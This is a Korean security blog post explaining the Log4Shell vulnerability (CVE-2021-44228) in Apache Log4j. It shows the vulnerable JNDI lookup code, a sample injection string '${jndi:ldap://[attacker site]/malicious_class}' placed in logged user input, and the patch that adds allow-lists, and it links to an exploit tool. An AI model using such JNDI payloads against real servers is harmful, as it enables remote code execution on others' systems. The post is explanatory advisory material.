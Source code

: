 ```yaml
---
title: "[하루한줄] CVE-2021-44228: log4shell-전 세계 서버를 공격 가능한 최악의 log4j 취약점"
author: L0ch
tags: [L0ch, jndi injection, log4j, log4shell, cve, cve-2021-44228, rce, java]
categories: [1day1line]
date: 2021-12-12 14:00:00
cc: true
index_img: /img/1day1line.png
---
```


## URL

https://xz.aliyun.com/t/10649

## Target

- Apache Log4j 2.x <= 2.15.0-rc1

## Explain
log4j는 전 세계적으로 인기있는 logging library로 Mincraft, Apple iCloud, Apache, Twitter, Steam, Amazon, Tesla 등 현재 수많은 소프트웨어에서 사용되고 있습니다. 이러한 log4j에서 원격 코드 실행이 가능한 JNDI Injection 취약점이 발견되었습니다.

해당 취약점의 이름은 log4shell로 명명되었으며 log4j를 사용하는 소프트웨어 대부분을 공격 가능한 높은 파급력과 비교적 간단하다는 점 때문에 취약점의 위험성을 평가하는 지표인 cvss 점수의 최고점 10.0이 부여되었습니다. log4shell 취약점의 영향을 받는 소프트웨어는 [링크](https://github.com/YfryTchsGD/Log4jAttackSurface)에서 확인할 수 있으며, 2021/12/12 기준 지속적으로 업데이트되고 있습니다.

<br>

취약점은 [JndiManager.java](https://github.com/apache/logging-log4j2/commit/d82b47c6fae9c15fcb183170394d5f1a01ac02d3#diff-271353c1076e53f6893261e4420de27d34588bfd782806b5c66a3465c43b7f51) 의 [JNDI lookup](https://logging.apache.org/log4j/2.x/manual/lookups.html) 기능에서 발견되었습니다.

```java
public <T> T lookup(final String name) throws NamingException {
        return (T) this.context.lookup(name);
}
```

JNDI(Java Naming and Directory Interface)는 자바 애플리케이션에서 외부 디렉터리 서비스에 접근하기 위한 API로, 원격지 서버의 객체를 바인딩해 애플리케이션에서 접근할 수 있는 기능입니다. 이러한 외부 디렉터리 서비스 프로토콜은 대표적으로 LDAP(Lightweight Directory Access Protocol)과 LDAPS(Secure LDAP)이 있습니다.

해당 lookup 기능의 name 매개변수에 `${jndi:ldap://[attacker site]/malicious_class}` 와 같이 해커가 제어하는 서버의 악성 클래스 경로를 전달하게 되면 lookup은 `${}` 안의 내용을 파싱해 실행합니다. 이때 JNDI:LDAP 프로토콜로 접근하는 외부 디렉터리 서비스에 대한 검증이 존재하지 않아 해커의 악성 클래스를 바인딩하게 되고 악성 클래스에 포함된 임의 코드를 원격에서 실행할 수 있습니다.

```java
String userInput = "${jndi:ldap://[attacker site]/malicious_class}";
logger.info("log {} ", userInput)
```

위와 같이 취약한 서버가 log4j를 통해 request와 같은 user input을 기록하는 경우 원격 코드 실행이 트리거 됩니다.

> JNDI와 JNDI Injection은 [[하루한줄\] CVE-2021-2109 : 오라클 Weblogic Server 원격 코드 실행 취약점](https://hackyboiz.github.io/2021/01/26/l0ch/2021-01-26/)에서도 활용되었습니다.





패치는 lookup의 매개변수 name에 전달되는 프로토콜 및 ldap 서버, 클래스에 대한 필터를 추가하는 코드를 추가하는 것으로 이루어졌습니다.

```java
public synchronized <T> T lookup(final String name) throws NamingException {
        try {
            URI uri = new URI(name);
            if (uri.getScheme() != null) {
                if (!allowedProtocols.contains(uri.getScheme().toLowerCase(Locale.ROOT))) {
                    LOGGER.warn("Log4j JNDI does not allow protocol {}", uri.getScheme());
                    return null;
                }
                if (LDAP.equalsIgnoreCase(uri.getScheme()) || LDAPS.equalsIgnoreCase(uri.getScheme())) {
                    if (!allowedHosts.contains(uri.getHost())) {
                        LOGGER.warn("Attempt to access ldap server not in allowed list");
                        return null;
                    }
                    Attributes attributes = this.context.getAttributes(name);
                    if (attributes != null) {
                        // In testing the "key" for attributes seems to be lowercase while the attribute id is
                        // camelcase, but that may just be true for the test LDAP used here. This copies the Attributes
                        // to a Map ignoring the "key" and using the Attribute's id as the key in the Map so it matches
                        // the Java schema.
                        Map<String, Attribute> attributeMap = new HashMap<>();
                        NamingEnumeration<? extends Attribute> enumeration = attributes.getAll();
                        while (enumeration.hasMore()) {
                            Attribute attribute = enumeration.next();
                            attributeMap.put(attribute.getID(), attribute);
                        }
                        Attribute classNameAttr = attributeMap.get(CLASS_NAME);
                        if (attributeMap.get(SERIALIZED_DATA) != null) {
                            if (classNameAttr != null) {
                                String className = classNameAttr.get().toString();
                                if (!allowedClasses.contains(className)) {
                                    LOGGER.warn("Deserialization of {} is not allowed", className);
                                    return null;
                                }
                            } else {
                                LOGGER.warn("No class name provided for {}", name);
                                return null;
                            }
                        } else if (attributeMap.get(REFERENCE_ADDRESS) != null
                                || attributeMap.get(OBJECT_FACTORY) != null) {
                            LOGGER.warn("Referenceable class is not allowed for {}", name);
                            return null;
                        }
                    }
                }
            }
        } catch (URISyntaxException ex) {
            // This is OK.
```

해당 패치의 커밋로그는 [링크](https://github.com/apache/logging-log4j2/commit/d82b47c6fae9c15fcb183170394d5f1a01ac02d3#) 에서 확인할 수 있습니다.

## Reference

https://logging.apache.org/log4j/2.x/security.html

https://github.com/feihong-cs/JNDIExploit

https://github.com/YfryTchsGD/Log4jAttackSurface

https://unit42.paloaltonetworks.com/apache-log4j-vulnerability-cve-2021-44228/

https://isc.sans.edu/diary/rss/28120